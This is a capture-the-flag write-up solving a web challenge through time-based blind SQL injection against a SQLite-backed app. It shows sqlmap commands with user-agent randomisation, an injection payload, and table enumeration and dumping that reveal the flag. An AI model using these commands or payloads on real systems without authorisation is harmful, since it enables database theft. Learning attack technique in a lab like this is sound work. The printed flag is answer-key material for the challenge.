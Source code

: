 # SQL Always Sucks

## Challenge
* Category: Web Security
* Points: 150

We discovered an application in our environment that is apparently under development.
Please identify the risk it poses. http://challenge.acictf.com:28986

Note: Solutions to this problem are known to be sensitive to connection latency.
If your solution is working but very slowly, you may be able to speed up the process by running it from the competition's shell server.
https://cyberstakes.acictf.com/shell

### Hints
* It's sometimes useful to know what kind of database is behind a webapp before trying to attack it. It can save you time and really narrow your efforts. I wonder if the developers accidentally left any clues laying around.
* SQL injuection attacks don't always result in you getting raw database contents sent directly back to you. Sometimes it is all about [patience](https://www.sqlinjection.net/time-based/) and [timing](https://hackernoon.com/timing-based-blind-sql-attacks-bd276dc618dd).
* Some attacks just are not practical to do by hand because they require precision and lots of repetition. Thankfully, tools like [sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage) can automate much of this for you. It even comes pre-installed on our shell server!
* Many tools use unique user-agent strings by default. If you notice that curl or sqlmap don't appear to be working properly, you may need to look into whether you can configure them to "impersonate" something else


## Solution

### Tools
* sqlmap
* Popcorn and Netflix

This challenge is no longer available after the competition.  Hopefully we can put together a decent walkthrough from my notes.

Start by entering a name in the form and lets see what response we get back. Inspect that page to see if there are any unusual details.

![response](response.png)

There are two interesting parts in the HTML response.
* We see some comments in the HTML that let us know the backed DB is Sqlite
  * `<!--Dev is only using Sqlite. Bobby Needs to fix this -->`
* There is also a raw SQLite query in the debug class further down. This gives us more information about potential columns in a SQLite table.
  * `<p class='debug'> Debug: Last SQLite Query: SELECT lastname FROM Users WHERE firstname='blarg'</p>`

So far we know the backend DB is `SQLite`, there is a table called `Users` with columns `lastname` and `firstname`.

Kick off a `sqlmap` query to try and enumerate further details about the database.  Paying close attention to the hints above, we will most likely need to incorporate some randomization in the `User Agent` as well as time-sensitivity settings.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent --time-sec=3 --level=4 --risk=3 --union-from=users

... (Im truncating output)

[01:56:29] [INFO] GET parameter 'firstname' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable
[02:02:06] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
GET parameter 'firstname' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 2286 HTTP(s) requests:
---
Parameter: firstname (GET)
    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: firstname=blarg' OR 9267=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(300000000/2))))-- vlWw
---
[02:02:54] [INFO] the back-end DBMS is SQLite
```

That query did not give us much more information than we already knew from reading the HTLM, but it did confirm we are dealing with a SQLite database. Lets form an approach for enumerating the database.

#### Approach
* Enumerate table names
* Enumerate columns for tables
* Get data from columns of interest in a specific table, ie: column=flag


#### Enumerate Table Names
Try again, but use the `--dbms=SQLite`, `--random-agent` and `--tables` flags for sqlmap. The first tells sqmlap we are dealing with a SQLite database. The second randomizes the User-Agent string sent with the requests and the last focuses on [enumerating database tables](https://github.com/sqlmapproject/sqlmap/wiki/Usage#enumerate-databases-tables). When sqlmap asks you to `optimize value(s) for DBMS delay responses` type `y`.  __This query is going to take a long time__, go ahead a make some popcorn and binge-watch something on Netflix.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent --tables

... (truncated output)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y

... (truncated output)
Database: SQLite_masterdb
[2 tables]
+-----------------+
| SuperSecretData |
| Users           |
+-----------------+
```

Excellent. We now know there are two tables `SuperSecretData` and `Users` in the `SQLite_masterdb` Database and I have not decided if Tiger King is a true-crime documentary or a trashy reality-tv show.


#### Enumerate Columns for Tables

This time we are going to try and get the names of the columns in the `SuperSecretData` table. Add `-D SQLite_masterdb`, `-T SuperSecretData`, and `--columns` to our sqlmap query string. The first flag names the database to enumerate. The second flag names the Table to enumerate. The last flag tells sqlmap what to enumerate from the table (ie the table columns).  Continue to let sqlmap optimize DBMS delay responses by answering `y` when prompted. Kick off this query and for a run. It's going to be a while before we get the results back.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T SuperSecretData --columns

... (truncated output)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y

... (truncated output)
Database: SQLite_masterdb
Table: SuperSecretData
[2 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| flag   | TEXT    |
| ID     | INTEGER |
+--------+---------+
```

Sweet! We can see that there are two columns `flag` and `ID` in the `SuperSecretData` table.


#### Get Data (the flag)

This time we are going to try and get the flag by dumping DBMS database table entries. Formulate your query by adding `-C flag` and `--dump` to your query. The first argument specified which table column to focus on and the second tells sqlmap to dump its contents.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T SuperSecretData -C flag --dump

... (truncated output)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y

... (truncated output)
Database: SQLite_masterdb
Table: SuperSecretData
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ACI{59df47a3243d2f239ea878a7266} |
+----------------------------------+
```

Boom! We have our flag. **ACI{59df47a3243d2f239ea878a7266}**

You could have used the following queries to enumerate the User table, but it's not necessary. You would have found the lastname and firstname columns are filled with 20 `NULL` values. 

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T Users --columns
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T Users -C lastname --dump
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T Users -C firstname --dump
```
